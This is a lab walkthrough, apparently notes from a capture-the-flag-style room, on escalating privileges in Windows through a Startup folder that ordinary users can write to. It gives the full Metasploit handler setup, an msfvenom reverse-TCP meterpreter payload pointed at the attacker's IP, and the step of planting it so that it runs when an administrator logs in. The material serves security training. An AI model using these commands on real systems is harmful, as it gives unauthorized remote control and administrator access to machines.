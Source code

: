 **Detection**  

Windows VM

1. Open command prompt and type: 

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" 
```

![[Pasted image 20240206202407.png]]

2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

**Exploitation**

Kali VM

1. Open command prompt and type: 

```
msfconsole
```
 
2. In Metasploit (msf > prompt) type:
``
```
use multi/handler
```
   
   
3. In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp
```
   
4. In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```


5. In Metasploit (msf > prompt) type: 
```
run
```

![[Pasted image 20240206222948.png]]

6. Open another command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
```

![[Pasted image 20240206223512.png]]

  
**7. Copy the generated file, x.exe, to the Windows VM.

![[Pasted image 20240206224443.png]]


Windows VM

1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.  

![[Pasted image 20240206224631.png]]


2. Logoff.  
3. Login with the administrator account credentials.

Kali VM

1. Wait for a session to be created, it may take a few seconds.  
2. In Meterpreter(meterpreter > prompt) type: getuid  

![[Pasted image 20240206224920.png]]


1. From the output, notice the user is “User-PC\Admin”

Answer the questions below

Click 'Completed' once you have successfully elevated the machine